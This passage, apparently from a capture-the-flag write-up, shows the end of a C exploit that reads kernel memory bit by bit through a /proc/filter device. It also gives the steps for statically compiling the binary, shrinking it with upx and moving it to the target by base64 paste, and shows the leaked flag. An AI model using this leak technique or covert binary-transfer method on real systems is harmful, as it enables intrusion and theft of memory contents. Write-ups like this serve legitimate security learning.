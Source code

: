 ```c
    b = (b & 0xAA) >> 1 | (b & 0x55) << 1;
    return b;
}

uint16_t flip_8bits_each_side(uint16_t x) {
    uint8_t high = reverse8(x >> 8);
    uint8_t low = reverse8(x & 0xFF);
    return (high << 8) | low;
}


int main() {
    fd = open("/proc/filter", O_RDONLY);
    if (fd < 0) {
        perror("Failed to open /proc/filter");
        return 1;
    }
    setbuf(stdout, NULL);
    int i = 1;
    int a = 0;
    char tmp = 0;
    uint16_t chunk = 0;
    while (1) { // run until error
        printf("\b\b\b\b\b\b\b\b\b\b\b\b\b\b");
        while ( i < 65536) { // leak 2 bytes
            usleep(10000); // dramatic effect
		    chunk <<= 1;
            tmp = leak_bit(a, i)^1;
        	chunk |= tmp;
            printf("%d", tmp);
	        i *= 2;
        }
	    chunk = flip_8bits_each_side(chunk);
        printf("\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b%c%c              ", chunk >> 8, chunk & 0xff);
        i = 1; // reset bit leaker
        a += 2; // add on 2 bytes
    }
}
```
To compile this, run: `aarch64-linux-gnu-gcc better_packet_filter_solve.c -Os -static`, it is crucial that you statically link the code because our target is Alpine, which uses musl instead of libc, so a dynamically linked binary would not execute. The resulting file is big though, (harder to send to our target) at `881k`. To shrink it we can use `upx`, shrinking it to `378k`. To send it to the server I used `base64 a.out | wl-copy` to copy the base64 encoded version of the file onto my clipboard. On the server, I executed `stty -echo` which prevents alpine from being as noisy during the next step. I then ran `echo '<paste>' > o`, which put the base64 of our binary into `o`. I then ran `cat o | base64 -d > l` (decoding it) and finally `chmod +x l; ./l` (executing it). The server then responded with:
```
~ $ ./l
SVUSCG{b3t73r_1n7erpr37er_7h@n_83rke1ey}0101000000000000
ioctl(RUN_FILTER) failed: Invalid argument
```
